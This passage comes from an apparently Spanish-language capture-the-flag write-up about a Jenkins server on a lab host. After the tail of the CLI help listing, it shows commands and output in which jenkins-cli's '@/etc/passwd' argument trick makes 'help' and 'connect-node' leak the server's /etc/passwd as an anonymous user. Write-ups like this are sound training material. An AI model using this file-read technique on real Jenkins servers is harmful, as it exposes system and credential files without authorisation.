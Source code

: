 ```bash
    Stop all running builds for job(s)
  update-credentials-by-xml
    Update Credentials by XML
  update-credentials-domain-by-xml
    Update Credentials Domain by XML
  update-job
    Updates the job definition XML from stdin. The opposite of the get-job command.
  update-node
    Updates the node definition XML from stdin. The opposite of the get-node command.
  update-view
    Updates the view definition XML from stdin. The opposite of the get-view command.
  version
    Outputs the current version.
  wait-node-offline
    Wait for a node to become offline.
  wait-node-online
    Wait for a node to become online.
  who-am-i
    Reports your credential and permissions.

```

Por ejemplo podemos ver con quien estamos conectados.
```bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ who-am-i
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Authenticated as: anonymous
Authorities:
  anonymous
```

```bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ help @/etc/passwd
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
 ```

 Con la instrucción connect-node podemos ver más contenido.
 ```bash
 ❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ connect-node @/etc/passwd
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
 ```